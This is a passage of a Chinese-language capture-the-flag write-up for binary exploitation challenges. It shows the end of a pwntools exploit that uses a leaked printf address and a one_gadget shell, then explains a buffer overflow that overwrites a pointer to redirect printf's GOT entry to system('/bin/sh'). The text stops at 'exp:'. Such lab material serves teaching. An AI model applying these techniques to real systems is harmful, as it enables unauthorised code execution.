 ```python
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# gadget
one_gadget = 0x106ef8 #execve("/bin/sh", rsp+0x70, environ)
# elf, libc
printf_libc = libc.symbols['printf']
ru('here is the gift for u:')
printf = int(rc(14),16)
info_addr('printf',printf)
libc_base = printf-printf_libc
info_addr('libc_base', libc_base)
info_addr('one gadget', one_gadget+libc_base)
ru('gadget:')
sl(str(one_gadget+libc_base))

p.interactive()
```



## Imagin的小秘密(secret) - TaQini

考察点：缓冲区溢出、GOT表覆写

```assembly
.data:000000000046D080 ; char buf[]
.data:000000000046D080 buf             db 'Y0ur_N@me',0        
.data:000000000046D080                                         
.data:000000000046D08A                 align 10h
.data:000000000046D090 times           dq offset unk_46D0C0    
.data:000000000046D090                                         
.data:000000000046D090 _data           ends
```
程序开头`read(0, buf, 0x16)`，实际上`buf`大小只有0x10，后6字节会覆盖`times`变量
```c
void __noreturn sub_401301()
{
  puts("#====================================#");
  puts("#             GAME OVER              #");
  puts("#====================================#");
  sub_4011C2("#        BYE BYE~                    #", 18LL);
  printf(buf, 18LL);
  puts(&byte_46B0A7);
  puts("@====================================@");
  exit(0);
}
```
猜错退出程序时，有个`printf`打印`buf`内容，查看got表，发现`printf`和`system`只差0x10
```
[0x46d038] system@GLIBC_2.2.5 -> 0x401076 (system@plt+6) ◂— push   4
[0x46d040] printf@GLIBC_2.2.5 -> 0x401086 (printf@plt+6) ◂— push   5
```
所以把`times`覆盖成`got[printf]`
```shell
buf='/bin/sh;' ; got[printf] -> system
```
`times`每猜对一次**自减1**，控制猜对的次数，即可构造出`system("/bin/sh")`
exp:
